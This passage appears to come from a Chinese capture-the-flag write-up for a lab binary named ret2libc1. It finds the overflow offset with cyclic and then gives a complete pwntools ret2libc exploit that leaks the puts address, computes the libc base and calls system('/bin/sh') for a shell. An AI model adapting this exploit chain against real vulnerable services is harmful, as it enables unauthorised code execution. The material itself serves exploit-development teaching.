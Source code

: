 ![image-20240115131923818](../assets/img/old_imgs/image-20240115131923818.png)

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic -l 0x62616164
112
```

得到溢出位置,`padding=112`

后续就是常规的利用,但是这里要注意第二次发送`payload`的时候栈填充长度是$104$,通过`gdb`调试可以直观的看到,不多赘述,奉上`exp`一则

```python
from pwn import *
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#context.log_level = 'debug'
io = process('./ret2libc1')
#io = gdb.debug('./ret2libc1')
elf = ELF('./ret2libc1')
payload = b'A'*(112)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
io.sendlineafter(b'RET2LIBC >_<\n',payload)
puts_addr = u32(io.recv(4))
print('puts_addr->{}'.format(hex(puts_addr)))

liboffset = puts_addr - Lib.sym['puts']
sys_addr = liboffset + Lib.sym['system']
bin_sh_addr = liboffset + next(Lib.search(b'/bin/sh'))

payload = b'A'*(100+4)+p32(sys_addr)+p32(0)+p32(bin_sh_addr)
io.sendlineafter(b'RET2LIBC >_<\n',payload)
io.interactive()
```
